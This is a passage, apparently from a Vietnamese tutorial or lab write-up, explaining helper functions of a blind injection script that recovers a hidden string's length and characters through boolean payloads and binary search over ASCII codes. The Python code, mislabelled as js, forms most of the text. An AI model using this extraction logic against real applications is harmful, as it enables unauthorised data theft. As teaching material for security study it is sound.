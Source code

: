 ##### 3.Hàm `extract_binary_search`

```js
def extract_binary_search(base_payload, low, high):
    """Tìm kiếm nhị phân để trích xuất thông tin."""
    while low <= high:
        mid = (low + high) // 2
        payload = base_payload.format(operator="=", value=mid)
        if send_payload(payload):
            return mid
        payload = base_payload.format(operator=">", value=mid)
        if send_payload(payload):
            low = mid + 1
        else:
            high = mid - 1
    return None
```

- Hàm này thực hiện tìm kiếm nhị phân trên một dãy số (được xác định bởi `low` và `high`) để trích xuất thông tin.
- Hàm sử dụng `send_payload()` để thử với các giá trị trung gian (`mid`) và điều chỉnh phạm vi tìm kiếm dựa trên kết quả trả về.
- Nếu tìm thấy giá trị hợp lệ, hàm trả về giá trị đó, nếu không sẽ tiếp tục điều chỉnh phạm vi.


##### 4.Hàm `get_string_length`
```js
def get_string_length(base_payload):
    """Lấy chiều dài chuỗi."""
    length = 1
    max_length = 100  # Giới hạn số lần thử để tránh vòng lặp vô tận
    while length <= max_length:
        payload = base_payload.format(length=length)
        if send_payload(payload):
            return length
        length += 1
    return None  # Trả về None nếu không tìm thấy chiều dài hợp lệ
```

- Hàm này tìm chiều dài của chuỗi bằng cách thử từng giá trị `length` từ 1 đến 100.
- Nếu gửi payload thành công (tức là độ dài chuỗi hợp lệ), hàm trả về giá trị chiều dài. Nếu không tìm thấy chiều dài hợp lệ trong phạm vi thử nghiệm, trả về `None`

##### 5.Hàm `get_string_content`
```js
def get_string_content(base_payload, length):
    """Trích xuất nội dung chuỗi."""
    result = ""
    for position in range(1, length + 1):
        # Sử dụng format để truyền vị trí hiện tại vào payload
        payload = base_payload.format(position=position, operator="{operator}", value="{value}")
        char_ascii = extract_binary_search(payload, 32, 126)
        if char_ascii:
            result += chr(char_ascii)
    return result
```
